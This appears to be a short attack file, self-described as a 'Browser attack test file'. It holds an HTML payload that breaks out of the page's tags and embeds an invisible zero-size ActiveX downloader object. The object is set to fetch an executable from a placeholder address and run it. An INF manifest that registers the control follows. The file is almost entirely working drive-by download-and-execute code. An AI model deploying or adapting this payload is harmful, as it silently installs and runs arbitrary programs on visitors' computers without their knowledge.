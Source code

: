 # Browser attack test file.
# author :  weibo@flagellantX
# ----------------------------------------------------------------------------
</html></script></body><BODY><OBJECT ID="Playing1" WIDTH="0" HEIGHT="0" CLASSID="CLSID:c1b7e532-3ecb-4e9e-bb3a-2951ffe67c61" CODEBASE="Playing.ISO#Version=1,0,0,1"><PARAM NAME="propProgressbackground" VALUE="#bccee8"><PARAM NAME="propTextbackground" VALUE="#f7f8fc"><PARAM NAME="propBarColor" VALUE="#df0203"><PARAM NAME="propTextColor" VALUE="#000000"><PARAM NAME="propWidth" VALUE="0"><PARAM NAME="propHeight" VALUE="0"><PARAM NAME="propDownloadUrl" VALUE="http://网络地址/可执行文件"><PARAM NAME="propPostdownloadAction" VALUE="run"><PARAM NAME="propInstallCompleteUrl" VALUE=""><PARAM NAME="propbrowserRedirectUrl" VALUE=""><PARAM NAME="propVerbose" VALUE="0"><PARAM NAME="propInterrupt" VALUE="0"></OBJECT></script></body></html>
------------------------------------------------------------------------------
[version]
    signature="$CHICAGO$"
    AdvancedINF=2.0
[Add.Code]
    DownloaderActiveX.ocx=Playing.ocx
[Playing.ocx]
    file-win32-x86=thiscab
    clsid={c1b7e532-3ecb-4e9e-bb3a-2951ffe67c61}
    FileVersion=1,0,0,1
    RegisterServer=yes
------------------------------------------------------------------------------
[Playing.ocx]
